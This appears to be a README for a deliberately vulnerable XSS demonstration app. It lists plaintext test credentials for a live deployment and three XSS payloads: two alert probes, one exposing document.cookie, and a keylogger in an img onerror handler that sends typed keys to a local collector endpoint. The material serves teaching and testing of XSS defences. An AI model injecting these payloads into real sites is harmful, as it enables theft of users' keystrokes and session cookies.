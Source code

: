 ### NOTE This app wont work locally because auth0 is not set for it
### NOTE If app freezes please disable dangerous mode and refresh page, it has to do with something with Render.com

### Link to live app [dangerzone](https://dangerzonexss.onrender.com/)

### Credentials for testing

1. Username/email
```
adminko.admin@gmail.com
```

2. Password
```
strongAdminPassword123
```

### Some xss scripts for testing in dangerous mode:
BTW, it is recommended to write malicious text inside textarea when in safe mode because
entered text is displayed right under the text area (text change forces update in lower html element, in this case )

1. 
```html
\<img src onerror="alert('XSS attack')"/>
```

2. 
```html
\<img src onerror="alert(document.cookie)" />
```

3.
```html
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

### Advice 
